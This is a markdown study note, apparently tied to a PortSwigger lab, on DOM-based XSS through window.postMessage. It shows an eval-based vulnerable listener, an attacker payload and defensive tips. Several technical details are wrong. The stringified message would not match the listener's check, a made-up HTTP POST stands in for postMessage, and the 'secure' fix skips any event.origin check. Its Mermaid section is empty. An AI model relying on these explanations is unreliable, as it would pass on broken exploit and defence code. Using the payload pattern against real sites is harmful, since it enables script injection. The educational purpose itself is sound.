

## Exploiting DOM-Based XSS Using `window.postMessage`

To demonstrate how DOM-based XSS can be exploited using `window.postMessage`, let's walk through a detailed example.

### Step-by-Step Exploit

1. **Inject Malicious Content**:
   - The attacker injects malicious content into the DOM using `window.postMessage`.
   
2. **Trigger Event**:
   - The injected content triggers an event that executes the malicious script.

3. **Execution of Malicious Script**:
   - The browser executes the injected script, leading to potential data theft or further exploitation.

### Detailed Code Example

Let's assume we have a web application that listens for `message` events and processes the received data:

```javascript
// Listening for message events
window.addEventListener("message", function(event) {
    // Process the received data
    var data = event.data;
    if (data.type === "load_channel") {
        eval(data.url); // Dangerous!
    }
});
```

#### Vulnerable Code

```javascript
// Vulnerable code snippet
window.addEventListener("message", function(event) {
    var data = event.data;
    if (data.type === "load_channel") {
        eval(data.url); // This line is dangerous
    }
});
```

#### Explanation

- The application listens for `message` events.
- When a message is received, it checks if the `type` is `"load_channel"`.
- If so, it evaluates the `url` property, which can be controlled by the attacker.

### Exploitation

An attacker can exploit this vulnerability by sending a crafted message:

```javascript
// Attacker's code to exploit the vulnerability
var maliciousData = {
    type: "load_channel",
    url: "javascript:alert('XSS')"
};

// Send the malicious data to the target window
targetWindow.postMessage(JSON.stringify(maliciousData), "*");
```

### Full Raw HTTP Message

Here’s how the full HTTP request and response might look:

#### Request

```http
POST /path/to/resource HTTP/1.1
Host: example.com
Content-Type: application/json

{
    "type": "load_channel",
    "url": "javascript:alert('XSS')"
}
```

#### Response

```http
HTTP/1.1 200 OK
Date: Mon, 23 Jan 2023 12:00:00 GMT
Content-Type: application/json

{
    "status": "success"
}
```

### Mermaid Diagram



### Common Pitfalls

- **Improper Sanitization**: Not sanitizing the input before processing it.
- **Using `eval()`**: Using `eval()` to execute untrusted input is extremely dangerous.
- **Relaxed Origin Policy**: Setting `targetOrigin` to `"*"` allows any origin to receive the message.

### How to Prevent / Defend

#### Secure Coding Practices

1. **Avoid `eval()`**: Never use `eval()` to execute untrusted input.
2. **Sanitize Input**: Always sanitize and validate input before processing it.
3. **Use Strict Origin Policy**: Set `targetOrigin` to a specific origin instead of `"*"`.

#### Secure Code Example

```javascript
// Secure code snippet
window.addEventListener("message", function(event) {
    var data = event.data;
    if (data.type === "load_channel") {
        // Sanitize and validate the input
        var sanitizedUrl = data.url.replace(/[^a-zA-Z0-9]/g, '');
        // Use the sanitized input safely
        console.log(sanitizedUrl);
    }
});
```

#### Detection and Prevention

- **Static Analysis Tools**: Use tools like ESLint to detect potential issues.
- **Dynamic Analysis Tools**: Use tools like Burp Suite to test for vulnerabilities.
- **Security Policies**: Implement strict security policies and regularly audit your code.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers comprehensive labs on various web security topics, including DOM-based XSS.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web application for learning web security.

By thoroughly understanding and implementing these practices, you can significantly reduce the risk of DOM-based XSS vulnerabilities in your applications.

---
<!-- nav -->
[[04-DOM-Based Vulnerabilities|DOM-Based Vulnerabilities]] | [[Web Security (PortSwigger)/06-DOM-based Vulnerabilities/03-Lab 3 DOM XSS using web messages and JSONparse/00-Overview|Overview]] | [[06-Exploiting the DOM-Based XSS Vulnerability|Exploiting the DOM-Based XSS Vulnerability]]
